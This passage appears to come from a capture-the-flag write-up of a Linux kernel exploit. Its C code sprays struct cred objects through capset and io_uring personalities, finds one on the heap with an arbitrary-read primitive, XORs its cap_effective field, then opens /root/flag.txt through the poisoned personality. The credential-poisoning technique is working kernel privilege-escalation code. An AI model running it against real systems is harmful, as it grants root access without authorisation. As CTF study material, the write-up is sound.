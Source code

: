 How do we find the address of `struct cred` to poison it? For security reasons it has it's own slab so we won't be able to allocate it with `kmalloc` in cipher_write(even if it kfree'd).

But wait... we have a arbitrary read. And we have a kernel heap pointer. Why not to just traverse all down the heap until we found one! 

To make search simpler, let's allocate maaany of `struct cred`s (0xffff is the max number). 
```
void alloc_n_creds(struct io_uring* ring, size_t n_creds) {
    for (size_t i = 0; i < n_creds; i++) {
        struct __user_cap_header_struct cap_hdr = {
            .pid = 0,
            .version = _LINUX_CAPABILITY_VERSION_3
        };

        struct __user_cap_data_struct cap_data[2] = {
            {.effective = 0, .inheritable = 0, .permitted = 0},
            {.effective = 0, .inheritable = 0, .permitted = 0}
        };

        /* allocate new cred */
        EXIT_ON_ERR(syscall(SYS_capset, &cap_hdr, (void *)cap_data) < 0);

        /* register it for later use with io_uring */
        EXIT_ON_ERR((personalities[i] = io_uring_register_personality(ring)) < 0);
    }
}
```

Then we can traverse the heap with our `arbread()` to find at least one of allocated `struct cred`s: 
we just iterate from leaked kheap address and as soon as we see the `0x3e8000003e8` it most probably is uid/euid of the of some `struct cred`. 

Now poison this cred at offset 0x38(`cap_effective`) with `arbxor()`. Voila.

It remains to use the poisoned `cred`. We just iterate over all registered `personalities` and try to call `openat` with `io_uring`. 

All but one of them will fail. 
One which corresponds to poisoned `struct cred` will succeed. 
So as soon as we hit the right one the `cqe->res` will return the flag file descriptor.
```
int flag_fd;
for (size_t i = 0; i < N_CREDS; ++i) {
    struct io_uring_sqe* sqe = io_uring_get_sqe(&ring);
    io_uring_prep_openat(sqe, -1, "/root/flag.txt", O_RDONLY, 0);
    sqe->personality = personalities[i];

    io_uring_submit(&ring);

    struct io_uring_cqe* cqe;
    io_uring_wait_cqe(&ring, &cqe);

    if (cqe->res >= 0) {
        puts("[*] !!!!!!!!! SUCCESS");
        flag_fd = cqe->res;
        break;
    }

    io_uring_cqe_seen(&ring, cqe);
}

if (flag_fd > 0) {
    char flag[0x40] = {0};
    read(flag_fd, flag, sizeof(flag));
    printf("%s\n", flag);
```